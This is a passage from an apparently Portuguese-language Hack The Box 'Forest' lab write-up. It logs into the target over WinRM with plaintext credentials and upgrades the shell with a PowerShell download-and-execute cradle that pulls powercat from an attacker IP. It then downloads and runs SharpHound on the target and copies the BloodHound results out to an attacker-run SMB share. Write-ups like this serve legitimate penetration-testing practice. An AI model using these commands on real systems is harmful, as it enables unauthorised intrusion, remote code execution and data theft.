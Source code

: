 ***Sem sucesso!***

### WinRM

`evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice`

***Sucesso!***

### HABEMUSS!!!

![Untitled](../assets/img/HTB/HTB-Forest/Untitled%201.png)



## Melhorando o shell

Usamos o powercat para melhorar o shell:

`IEX(New-Object System.Net.WebClient).DownloadString('[http://10.10.14.2/powercat.ps1](http://10.10.14.2/powercat.ps1)'`

## BloodHound

Baixando o sharphound pro alvo:

`powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.2//sharphound.exe','c:\\windows\\tasks\\sharphound.exe')`

Executando no alvo:

`c:\\windows\\tasks\\sharphound.exe`

Transferindo o resultado pro kali:

`impacket-smbserver samba . -smb2support`

`copy 20221018071247_BloodHound.zip \\10.10.14.2\\samba`

Analisando o resultado:

Temos o caminho do sucesso na seção `Find Shortest Paths to Domain Admins`

